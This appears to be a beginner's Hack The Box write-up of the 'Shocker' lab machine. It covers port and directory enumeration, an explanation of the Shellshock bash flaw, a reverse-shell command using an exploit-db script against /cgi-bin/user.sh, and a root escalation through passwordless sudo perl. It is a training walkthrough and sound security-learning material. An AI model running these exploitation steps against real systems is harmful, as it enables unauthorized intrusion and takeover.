 ```yaml
---
layout: single
title: "Shocker - Linux HacktheBox Writeup"
categories:
  - Writeup
tags:
  - Easy
  - Linux
  - HackTheBox
classes:
  - wide
---
```


Shocker is my first box on Hack The Box. After spending the last few weeks on TryHackMe, it feels scary but exciting to finally start hacking into boxes untethered.

So the first thing I do when faced with a box, is **enumeration**. 

Enumeration is the process by which we can obtain a connection to the target and discover potential attack angles. An example of a few elements we're often looking for in this step are the following: 

- Ports
- Credentials (Usernames, Passwords, Groupnames..etc) 
- Machine names
- Apps and banners  

For Shocker, because we have access to an IP address, I just open up my terminal and plug it in with my favorite tool: Nmap. 
The following is the output:
```
PORT     STATE SERVICE VERSION

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
So we can see two open ports of interest. An http address and an ssh port.

The next tool we can use is Gobuster because we might be able to find some interesting directories via the website.
While gobuster is running, we can quickly check out the website. Checking the page source doesn't provide us with anything too interesting. 
Back on gobuster's side of things, we get the following results:

```
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirb/small.txt -s 307,200,204,301,302,403 -x txt,sh,cgi,pl -t 50

> /cgi-bin/ (Status: 403)
```
Running a second time to to recurse the found directory I find:

```
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirb/small.txt -s 307,200,204,301,302,403 -x txt,sh,cgi,pl -t 50

> /user.sh
```
This appears to be a bash script. Might be useful for our foothold.
At this point of the box, I decided to look up more information on the bash script in the cgi-bin directory.

A number of results come back talking about the 'shellshock' exploit. This makes sense as the name of the box is shocker. 
I start to research the exploit instead, to read  more about it.

So Shellshock appears to be a security issue allowing Bash to execute commands. So remote code execution in other words. 
From an explanation online:

''*Bash supports exporting not just shell variables, but also shell functions to other bash instances, via the process environment to (indirect) child processes.  Current bash versions use an environment variable named by the function name, and a function definition starting with “() {” in the variable value to propagate function definitions through the environment.  The vulnerability occurs because bash does not stop after processing the function definition; it continues to parse and execute shell commands following the function definition.*''

Done with enumeration for now, we can move on to exploitation, or getting a foothold.

Using exploit-db, a website dedicated to provided lists of exploits and CVEs, we find our exploit in question at:
[https://www.exploit-db.com/exploits/34900](https://www.exploit-db.com/exploits/34900)

Using the example command syntax, we can download the script and input the command into our terminal to get ourselves a reverse-shell.

```
python 34900.py payload=reverse rhost=10.10.10.56 lhost=tun0 lport=1234 pages=/cgi-bin/user.sh
```
Success! We have a shell as the user Shelly! 
Let's find ourselves a user flag.

```
10.10.10.56> cd / 
10.10.10.56> cd /home/shelly
10.10.10.56> ls -a 
10.10.10.56> cat user.txt
```
The first flag has been caught. 
Onto the next one!

So the next step is looking for the root flag. This requires root privileges to head into the root directory. 
So we first should check the priveleges our current user has. 
According to sudo -l, Shelly can run the perl command using sudo without any passwords. This is great. 
Using the nice [GTFObins database](https://gtfobins.github.io/), we can run a nice one liner to grab root shell and therefore system own by finding our last flag. 

```

# id
uid=0(root) 

```
Yay!